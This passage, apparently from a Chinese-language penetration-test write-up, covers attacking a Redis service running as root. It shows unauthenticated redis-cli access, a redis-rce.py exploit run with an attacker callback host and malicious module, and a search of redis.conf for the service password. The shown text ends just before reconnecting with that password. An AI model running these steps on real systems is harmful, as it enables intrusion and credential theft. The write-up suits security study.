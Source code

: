 是的就是 redis 服务，而且还是root权限运行的  ... emmm 心情再次激动了起来。

然后在攻击机器（10.10.10.10） 下载了一个redis 来测试是否为未授权。

执行命令 **RT：**

```bash
[root@/]# redis-cli -h 192.168.1.1 -p 6379 
192.168.1.1:6379> 
```

突然想到了之前复现过的一个 redis-rce [详细传送门]([https://6o9.im/security/2019/07/12/Redis-RCE-%E5%A4%8D%E7%8E%B0.html](https://6o9.im/security/2019/07/12/Redis-RCE-复现.html)) 这里就不细讲了，然后执行如下：

```bash
[root@redis-rce]# python redis-rce.py -r 192.168.1.1 -p 6379 -L 10.10.10.10 -f ./exp_lin.so

[*] Connecting to  192.168.1.1:6379...
[-] Need password.
[root@redis-rce]# 
```

这个确实不是很懂，为什么突然需要密码了。。。 没办法索性当前的权限可以查看 redis 的配置文件，在低权限的终端执行 如下：

```bash
$ find /* | grep redis.conf 
find: `/var/lib/certmonger/local': Permission denied
find: `/var/lib/certmonger/cas': Permission denied
find: `/var/lib/certmonger/requests': Permission denied
find: `/var/lib/pulse': Permission denied
find: `/var/log/gdm': Permission denied
find: `/var/log/ppp': Permission denied
find: `/var/log/samba': Permission denied
find: `/var/log/audit': Permission denied
find: `/var/log/sssd': Permission denied
find: `/var/empty/sshd': Permission denied
/usr/local/redis/conf
/usr/local/redis/conf/redis.conf
.......省去一大堆无用的东西

$ ls -alh /usr/local/redis/conf/
total 72K
drwxrwxr-x 2 root root 4.0K Jun 20 15:00 .
drwxrwxr-x 4 root root 4.0K Nov 15  2018 ..
-rwxrwxr-x 1 root root  61K Nov 15  2018 redis.conf
```

redis.conf 允许读取，因此直接查看执行如下命令：

```bash
$ cat /usr/local/redis/conf/redis.conf | grep requirepass
# If the master is password protected (using the "requirepass" configuration
 requirepass redis#fxxxxx
```

redis#fxxxxx 即是redis的密码，接下来验证即可

在攻击机( 10.10.10.10 ) 再次连接被攻击机的 redis 如下：
